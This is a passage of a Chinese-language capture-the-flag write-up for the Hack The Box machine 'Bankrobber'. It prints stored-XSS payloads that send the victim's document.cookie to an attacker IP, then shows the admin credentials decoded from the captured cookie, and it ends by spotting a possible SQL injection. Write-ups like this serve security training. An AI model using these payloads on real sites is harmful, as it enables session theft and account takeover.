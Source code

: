 ```html
fromId=3&toId=<img src=x onerror=this.src="http://10.10.14.25/?c="%2bdocument.cookie>&amount=<img src=x onerror=this.src="http://10.10.14.25/?c="%2bdocument.cookie>&comment=<img src=x onerror=this.src="http://10.10.14.25/?c="%2bdocument.cookie>
```

在80端口建立监听，

![image-20200927103423438]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927103423438.png)

得到了管理员的用户名和密码

```html
YWRtaW4%3D
SG9wZWxlc3Nyb21hbnRpYw%3D%3D
```

%3D%3D是==，应该是base64

解码

```bash
$ echo YWRtaW4= | base64 -d
admin
$ echo SG9wZWxlc3Nyb21hbnRpYw== | base64 -d
Hopelessromantic
```

所以，管理员凭证是`admin:Hopelessromantic`

使用管理员凭证登录

![image-20200927104122091]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927104122091.png)


注意这个，一个notes.txt

![image-20200927104210678]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927104210678.png)

![image-20200927104245843]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927104245843.png)

```html
从默认的Xampp文件夹移动所有文件：TODO
对除本地主机以外的每个IP地址的注释进行编码：完成
休息一下..
```

看样子有xampp，所以已经可以知道默认目录，而且会用到这条线索。

我也应该休息一下。已经很久了。

![image-20200927135813534]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927135813534.png)

看样子是数据库查询

![image-20200927135734612]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927135734612.png)


可以注入
